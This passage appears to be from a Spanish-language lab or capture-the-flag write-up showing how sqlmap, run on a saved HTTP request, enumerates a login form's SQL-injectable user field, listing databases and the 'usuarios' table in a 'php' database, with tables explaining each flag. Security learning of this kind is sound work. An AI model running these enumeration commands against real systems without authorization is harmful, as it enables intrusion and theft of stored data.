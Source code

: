 | Parámetros | Descripción |
|--------------------------|
| *-r*	     | Usa un archivo de solicitud HTTP (incluye headers, cookies, etc.). |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |

<br>

Como lo mencioné antes, el campo del usuario es el vulnerable a **Inyecciones SQL**.

Tratemos de dumpear las bases de datos:
```bash
sqlmap -r request.txt --batch --dbs 
...
available databases [3]:
[*] information_schema
[*] performance_schema
[*] php
...
[*] ending @ 13:45:56 /2025-07-24/
```

| Parámetros | Descripción |
|--------------------------|
| *-r*       | Usa un archivo de solicitud HTTP (incluye headers, cookies, etc.). |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--dbs*    | Enumera todas las bases de datos disponibles. |

<br>

Dumpeemos las tablas de la base de datos **php**:
```bash
sqlmap -r request.txt --batch -D 'php' --tables
...
[13:46:27] [INFO] fetching tables for database: 'php'
[13:46:27] [INFO] retrieved: 'usuarios'
Database: php
[1 table]
+----------+
| usuarios |
+----------+
...
[*] ending @ 13:46:27 /2025-07-24/
```

| Parámetros | Descripción |
|--------------------------|
| *-r*       | Usa un archivo de solicitud HTTP (incluye headers, cookies, etc.). |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *-D*	     | Selecciona una base de datos especifica a enumerar. |
| *--tables* | Enumera las tablas de una base de datos específica. |
